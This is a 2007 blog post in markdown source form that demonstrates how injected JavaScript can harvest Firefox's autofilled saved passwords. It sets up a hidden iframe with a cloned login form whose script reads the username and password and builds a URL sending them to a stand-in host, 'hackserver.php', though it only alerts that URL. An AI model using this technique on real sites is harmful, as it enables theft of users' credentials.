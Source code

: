 ```yaml
---
author: aaron
comments: true
date: 2007-07-28 18:52:17+00:00
layout: post
slug: demonstrating-password-manager-almost-vulnerability-in-firefox
title: Demonstrating Password Manager Almost Vulnerability in FireFox
wordpress_id: 65
categories:
- javascript
- security
tags:
- javascript
- security
---
```


The "security guys" have been talking about the problems with FireFox's password manager and I got curious.  It turns out that javascript can access saved passwords in your password manager simply by creating a login form and capturing the input field's contents.  While this isn't necessarily a vulnerability in FireFox, it does suck!  The biggest attack vector is websites that allow user submitted content that have script injection holes.  Basically, if a third party can create a form and insert some javascript on the page, they will be 'acting' to the browser as if they're a legitimate part of the site.  Lets check out a proof of concept:

<!-- more -->First off, we have legitimate site here with its login form:

**index.php**

    
    <h1>Log In:</h1>
    
    <form action="login.php" name="login" method="post">
    Username: <input type="text" name="username"></input><br></br>
    Password: <input type="password" name="password"></input><br></br>
    <input type="submit"></input>
    </form>



And then we process the login (which allows firefox to save the password) and redirect to a standard page.

**login.php**




and my logged in page.

**loggedin.php**

    
    You're logged in now.
    
    <a href="index.php">Log in again</a><br></br>
    <a href="hack.php">Hack it</a>



As you can see, we can go back to the index.php page with the login form to verify that the password manager has saved our password.

Lets move on to the hack.php page which is the page that had a vulnerability that allowed the third party to insert some content.

**hack.php**

    
    Here is a normal page.  Don't feel scared.
    
    <iframe src="iframe.php" style="visibility: hidden"></iframe>



In theory, you'd have to also have a file named iframe.php on the same server.  I just separated it to keep the code separate.  In a real life example, we'd be inserting the content of iframe.php inside of a div so it runs directly from that server.  But anyways...

**iframe.php (the evil code)**

    
    <html><body onload="stealit()">
    <form action="login.php" name="login" method="post">
    Username: <input type="text" name="username"></input><br></br>
    Password: <input type="password" name="password"></input><br></br>
    </form>
    <script>
    function stealit()
    {
        var username=document.login.username.value;
        var password=document.login.password.value;
    
        alert("I am gonna do this:  self.location.href='http://hackserver.php?username=" + username + "&amp;password=" + password + "'");
    }
    </script>
    </body></html>



As you see, this makes an identical login form so that Firefox fills it in (firefox is doing its job! Don't be tooo mad).  Then, my script could go and make a request at a remote server with the username and password using ajax or loading an image or anything really.  (Here I just alert it.)

While I'm excited to see what Firefox is going to do to help stop this type of issue, I'm not mad and don't really think its that much of a bug.  When you use password manager, you KNOW what its going to do.
